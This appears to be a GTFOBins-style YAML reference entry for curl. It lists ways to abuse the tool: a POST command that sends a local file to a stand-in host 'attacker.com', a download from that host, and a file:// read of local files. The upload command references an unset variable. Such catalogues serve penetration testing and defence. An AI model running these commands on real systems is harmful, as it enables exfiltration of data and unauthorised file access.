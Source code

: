 ```yaml
---
functions:
  upload:
    - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        curl -X POST -d @$file_to_send $URL
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        curl $URL -o $LFILE
  file-read:
    - description: Uses the FILE protocol to fetch and display the file. The file path must be absolute.
      code: |
        LFILE=/tmp/file_to_read
        curl file://$LFILE
---
```

